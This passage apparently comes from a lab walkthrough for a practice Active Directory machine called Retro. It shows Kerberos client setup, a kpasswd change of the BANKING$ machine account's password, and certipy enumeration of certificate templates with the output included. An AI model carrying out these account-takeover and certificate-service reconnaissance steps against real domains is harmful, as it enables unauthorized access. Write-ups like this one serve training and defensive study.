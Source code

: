 ```
syl@sylsec:~/tools/$ sudo apt install krb5-user
```

Then you have to edit the realms in the `/etc/krb5.conf`

```ini
[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

[realms]
        RETRO.VL = {
                kdc = DC.RETRO.VL
                admin_server = DC.RETRO.VL
        }
[domain_realm]
        .retro.vl = RETRO.VL
```

And then simply invoke `kpasswd`

```
syl@sylsec:~/vulnlab/Retro$ sudo kpasswd BANKING$
Password for BANKING$@RETRO.VL: 
Enter new password: 
Enter it again: 
Password changed.
```

And now we can use this account!

Lets enumerate the ADCS (Active Directory Certificate Services). I used `certipy` for that matter.

```
syl@sylsec:~/vulnlab/Retro$ certipy find -u trainee -p 'trainee' -dc-ip 10.10.113.62 -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Saved BloodHound data to '20231219202428_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231219202428_Certipy.txt'
[*] Saved JSON output to '20231219202428_Certipy.json'
```
